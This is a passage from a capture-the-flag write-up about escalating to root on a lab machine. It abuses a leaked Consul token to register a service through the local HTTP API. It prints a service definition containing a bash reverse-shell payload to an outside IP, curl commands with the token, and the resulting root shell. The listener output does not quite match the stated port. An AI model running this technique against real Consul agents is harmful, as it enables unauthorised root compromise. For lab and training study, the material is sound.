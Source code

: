 ```bash
LISTEN            0                 4096                              127.0.0.1:8301                               0.0.0.0:*                                  
LISTEN            0                 4096                              127.0.0.1:8302                               0.0.0.0:*                                  
LISTEN            0                 4096                              127.0.0.1:8500                               0.0.0.0:*                                  
LISTEN            0                 4096                          127.0.0.53%lo:53                                 0.0.0.0:*                                  
LISTEN            0                 128                                 0.0.0.0:22                                 0.0.0.0:*                                  
LISTEN            0                 4096                              127.0.0.1:8600                               0.0.0.0:*                                  
LISTEN            0                 511                                       *:80                                       *:*                                  
LISTEN            0                 128                                    [::]:22                                    [::]:*                                  
LISTEN            0                 4096                                      *:3000                                     *:*                   
```

What we can do is use the leaked token to register a service on the Consul agent by using the Consul http API listening on port 8500 and putting our payload in service configuration. While the consul executes the services, it triggers our payload as root.   

Referance API doc [https://www.consul.io/api-docs/agent/service](https://www.consul.io/api-docs/agent/service)   
Referance about default port [https://stackoverflow.com/questions/30684262/different-ports-used-by-consul](https://stackoverflow.com/questions/30684262/different-ports-used-by-consul)

```bash
# listing avilable services
curl http://127.0.0.1:8500/v1/agent/services -H "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5"
```

Create a configuration file rce.json with args as our reverse shell payload
```bash 
{
  "ID": "rce3",
  "Name": "rce3",
  "Tags": ["primary", "v1"],
  "Address": "127.0.0.1",
  "Port": 80,
  "Check": {
    "Args": ["bash", "-c", "bash -i >& /dev/tcp/10.10.16.6/9001 0>&1"],
    "Interval": "10s",
    "Timeout": "86400s"
  }
}
```
Registering new services
```bash
curl -X PUT http://127.0.0.1:8500/v1/agent/services/register \
          -H "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5" \
          --data @rce.json
```
Wait to tigger the payload 
```bash
sudo netcat -lvnp 9001
Listening on 0.0.0.0 443
Connection received on 10.10.11.183
root@ambassador:/# id      
uid=0(root) gid=0(root) groups=0(root)
```
